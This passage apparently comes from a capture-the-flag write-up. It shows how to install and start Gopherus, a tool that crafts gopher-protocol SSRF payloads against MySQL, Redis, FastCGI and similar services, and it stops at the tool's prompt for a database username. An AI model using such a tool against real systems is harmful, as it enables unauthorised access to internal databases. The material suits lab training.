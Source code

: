 ```bash
❯ curl https://bootstrap.pypa.io/pip/2.7/get-pip.py --output get-pip.py
sudo python2 get-pip.py
```
now let's install it 
```bash
❯ ./install.sh
```
usage

we just have to send te command gopherus  in this case we saw that is SQL, but gopherus support mysql, postgresql, fastcgi, redis, smtp, zabbix etc.

```bash
❯ gopherus


  ________              .__
 /  _____/  ____ ______ |  |__   ___________ __ __  ______
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >
        \/       |__|        \/     \/                 \/

		author: $_SpyD3r_$

usage: gopherus [-h] [--exploit EXPLOIT]

optional arguments:
  -h, --help         show this help message and exit
  --exploit EXPLOIT  mysql, postgresql, fastcgi, redis, smtp, zabbix,
                     pymemcache, rbmemcache, phpmemcache, dmpmemcache
None

```
we have to select mysql in this case Gopherus will ask us the username for the data bases in our case is goblin because of the archive.bak

```bash
❯ gopherus --exploit mysql


  ________              .__
 /  _____/  ____ ______ |  |__   ___________ __ __  ______
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >
        \/       |__|        \/     \/                 \/

		author: $_SpyD3r_$

For making it work username should not be password protected!!!

Give MySQL username: 
```

